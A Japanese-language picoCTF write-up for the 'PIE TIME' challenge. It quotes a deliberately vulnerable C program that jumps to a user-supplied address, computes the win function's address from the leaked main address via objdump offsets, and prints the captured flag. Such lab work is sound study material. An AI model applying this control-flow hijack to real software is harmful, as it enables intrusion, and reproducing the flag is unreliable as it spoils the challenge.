

## PIE TIME

### 問題文

Can you try to get the flag? Beware we have PIE!
Connect to the program with netcat:
`$ nc rescued-float.picoctf.net 54778`
The program's source code can be downloaded here. The binary can be downloaded here.

---

まずは、提供されたソースコードをwgetで取得する。  
vuln と vuln.c が取得できた。  

下のようなコードだった。  
win関数にアクセスできれば、Flagをゲットできるみたいだが、win関数の呼び出しが見当たらない。

```c
/* 重要な部分のみ抜き出しています */
int win() {
    FILE *fptr;
    fptr = fopen("flag.txt", "r");
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

実行してみる。  
`$ nc rescued-float.picoctf.net 54778`



実行すると、main関数の置かれているアドレスが確認できた。  
その後、ジャンプしたいアドレスを入力するようだ。

ここで、win関数のアドレスを入力すればよさそう。

以下のコマンドでvulnファイルを逆アセンブルする。

`objdump -D vuln > b.txt`  
結果  
```binary
00000000000012a7 <win>:

...

000000000000133d <main>:
```

このことからwinとmainの間には、 0x96 の差があることがわかる  

したがって、mainのアドレス - 0x96 = winのアドレス ということが分かった。  

実行する。

1. mainのアドレスが、0x5a5e61b6233d
2. 0x5a5e61b6233d - 0x96 = 0x5A5E61B622A7
3. 0x5A5E61B622A7 をジャンプ先として、入力
4. Flagがゲットできた

picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_93dd5fcb}